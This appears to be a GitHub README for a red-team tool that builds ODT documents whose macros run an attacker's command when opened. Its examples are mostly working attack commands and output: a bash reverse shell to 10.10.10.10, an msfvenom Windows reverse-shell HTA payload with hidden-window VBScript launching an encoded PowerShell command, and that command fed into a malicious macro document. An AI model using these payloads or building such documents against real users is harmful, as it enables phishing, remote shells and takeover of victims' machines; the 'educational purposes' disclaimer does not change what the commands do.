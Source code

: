 ## Malicious VBA Macro Generator
One general way to gain a foothold on a user's machine in a red-teaming engagement is the use of delivering a document that has a macro enabled that executes a command, which is triggered upon the user opening the document. This program generates one such document in ODT format (I may add Word, Excel and ODS documents later).

### Update
MalMacro now supports commands of arbitrary length. This has particular application to obfuscated powershell commands, which can be extremely lengthy.

Examples:

```bash
$ python malmacro.py
Usage: malmacro.py <code_to_execute>

$ python malmacro.py "bash -i >& /dev/tcp/10.10.10.10/9001 0>&1"

# malmacro.odt generated
$ ls
macro.odt  malmacro.odt  malmacro.py

# Generate hta payload with msfvenom:
$  msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -f hta-psh
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of hta-psh file: 7378 bytes
<script language="VBScript">
  window.moveTo -4000, -4000
  Set blx9LNamq = CreateObject("Wscript.Shell")
  Set dhC = CreateObject("Scripting.FileSystemObject")
  For each path in Split(blx9LNamq.ExpandEnvironmentStrings("%PSModulePath%"),";")
    If dhC.FileExists(path + "\..\powershell.exe") Then
      blx9LNamq.Run "powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAO<SNIP>AHIAdAAoACQAcwApADsA",0
      Exit For
    End If
  Next
  window.close()
</script>

# Take powershell code to make malicious macro document
$ ./malmacro.py 'powershell.exe -nop -w hidden -e aQBmACgAWwBJAG4AdABQAHQAcgBdADoAOgBTAG<SNIP>'

```

## Disclaimer
This project is made for demonstrative and educational purposes only. I'm not liable for how you use it.
